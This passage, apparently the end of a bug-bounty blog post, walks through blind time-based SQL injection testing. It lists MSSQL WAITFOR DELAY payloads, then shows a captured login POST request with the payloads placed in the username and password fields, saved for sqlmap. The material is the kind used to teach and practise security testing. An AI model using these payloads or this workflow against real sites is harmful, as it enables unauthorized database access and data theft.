 ;waitfor delay ‘0:0:5’ —\
‘;WAITFOR DELAY ‘0:0:5’ —\
);waitfor delay ‘0:0:5’ —\
‘;waitfor delay ‘0:0:5’ —\
“;waitfor delay ‘0:0:5’ —\
‘);waitfor delay ‘0:0:5’ —\
“);waitfor delay ‘0:0:5’ —\
));waitfor delay ‘0:0:5’ —\
‘));waitfor delay ‘0:0:5’ —\
“));waitfor delay ‘0:0:5’ —\
“) IF (1=1) WAITFOR DELAY ‘0:0:5’ —\
‘;%5waitfor%5delay%5’0:0:5'%5 — %5\
‘ WAITFOR DELAY ‘0:0:5’ —

Explore payloads from : [https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1](https://ansar0047.medium.com/blind-sql-injection-detection-and-exploitation-cheatsheet-17995a98fed1)

Once you see weird length or status code is not visible in intruder then take that request in sqlmap

Copy request and create txt file in ubuntu: cat > request.txt

> POST /products/der/admin/index.php HTTP/1.1\
> Host: stite.net\
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0\
> Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8\
> Accept-Language: en-US,en;q=0.5\
> Accept-Encoding: gzip, deflate\
> Content-Type: application/x-www-form-urlencoded\
> Content-Length: 110\
> Origin: https://site.der.net\
> Connection: close\
> Cookie: PHPSESSID=ckpekt03vhn9mlgaapa50kujt3; \_ga\_97C2F8CQVY=GS1.1.1672995465.1.0.1672995465.0.0.0; \_ga=GA1.1.582203600.1672995466\
> Upgrade-Insecure-Requests: 1\
> Sec-Fetch-Dest: document\
> Sec-Fetch-Mode: navigate\
> Sec-Fetch-Site: same-origin\
> Sec-Fetch-User: ?1
>
> username=’%3b%5waitfor%5delay%5'0%3a0%3a5'%5\
> \-\
> %5\&password=’%3b%5waitfor%5delay%5'0%3a0%3a5'%5\
> \-\
> %5\&btn\_login=

<figure><img src="https://miro.medium.com/v2/resize:fit:875/1*xXR_lb4QKkFeIPb3SYpdXA.png" alt="" height="334" width="700"><figcaption></figcaption></figure>

Remaining things will be done by tools.

Note: This is just method which I use . I don’t promote or force to use this. Varies person to person .

Thanks

Kongsec
